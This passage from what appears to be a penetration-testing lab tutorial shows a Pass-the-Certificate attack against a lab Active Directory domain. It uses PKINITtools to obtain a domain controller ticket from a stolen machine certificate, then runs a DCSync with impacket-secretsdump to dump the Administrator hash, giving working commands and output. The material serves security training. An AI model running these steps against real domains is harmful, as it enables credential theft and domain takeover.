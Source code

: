We can now perform a `Pass-the-Certificate` attack to obtain a TGT as `DC01$`. One way to do this is by using [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). First, let's clone the repository and install the dependencies:

```shell-session
al1abb@htb[/htb]$ git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools
al1abb@htb[/htb]$ python3 -m venv .venv
al1abb@htb[/htb]$ source .venv/bin/activate
al1abb@htb[/htb]$ pip3 install -r requirements.txt
```

Then, we can begin the attack.

{% hint style="info" %}
**Note:** If you encounter error stating `"Error detecting the version of libcrypto"`, it can be fixed by installing the [oscrypto](https://github.com/wbond/oscrypto) library.
{% endhint %}

```shell-session
$ pip3 install -I git+https://github.com/wbond/oscrypto.git
Defaulting to user installation because normal site-packages is not writeable
Collecting git+https://github.com/wbond/oscrypto.git
<SNIP>
Successfully built oscrypto
Installing collected packages: asn1crypto, oscrypto
Successfully installed asn1crypto-1.5.1 oscrypto-1.3.0
```

```shell-session
$ python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'inlanefreight.local/dc01$' /tmp/dc.ccache

2025-04-28 21:20:40,073 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-04-28 21:20:40,351 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-04-28 21:21:05,508 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-04-28 21:21:05,508 minikerberos INFO     3a1d192a28a4e70e02ae4f1d57bad4adbc7c0b3e7dceb59dab90b8a54f39d616
INFO:minikerberos:3a1d192a28a4e70e02ae4f1d57bad4adbc7c0b3e7dceb59dab90b8a54f39d616
2025-04-28 21:21:05,512 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Once we successfully obtain a TGT, we're back in familiar Pass-the-Ticket (PtT) territory. As the domain controller's machine account, we can perform a DCSync attack to, for example, retrieve the NTLM hash of the domain administrator account:

```shell-session
al1abb@htb[/htb]$ export KRB5CCNAME=/tmp/dc.ccache
al1abb@htb[/htb]$ impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:...SNIP...:::
<SNIP>
```
